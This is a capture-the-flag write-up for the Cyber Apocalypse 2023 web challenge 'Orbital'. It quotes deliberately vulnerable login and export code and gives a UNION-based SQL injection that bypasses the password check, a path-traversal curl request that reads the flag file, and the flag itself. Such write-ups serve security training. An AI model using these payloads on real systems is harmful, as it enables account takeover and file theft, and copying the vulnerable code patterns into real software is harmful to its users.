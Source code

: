 # Cyber Apocalypse 2023

## Orbital

> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
>
>  Author: N/A
>
> [`web_orbital.zip`](web_orbital.zip)

Tags: _web_

## Solution
After browsing through the source code we can find the login code
```
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
The comment suggest sql injection is not possible here since password is tested explicitely later on. But this part is still weak, by logging in as

```
user: " AND 0=1 UNION SELECT username, md5("test123") AS password FROM users WHERE username = "admin" #-- -
pass: test123
```
We can hard set the password to whatever we want, here `test123`, and we are in.

On the site itself is not much to find, but browsing the code a bit more there is a interesting endpoint:

```
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

We can use this, with our current session id, to extract the flag. We only need to know where the flag is stored. In the Dockerfile this information can be found.
```
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

And we have the flag:
```
$ curl -X POST -H "Content-Type:application/json" -d '{"name":"../signal_sleuth_firmware"}' --cookie "session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOVGszTVRrMGZRLkRaLXhLS09YeENtZ1MtakhWajZmWkhYdGQyMDVpZmFNRVR3eEo5NVNfTDQifQ.ZBxKKg.SoU5o3fjH-Yj-A1EesEi6RQwDFA" http://167.71.143.44:32392/api/export
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```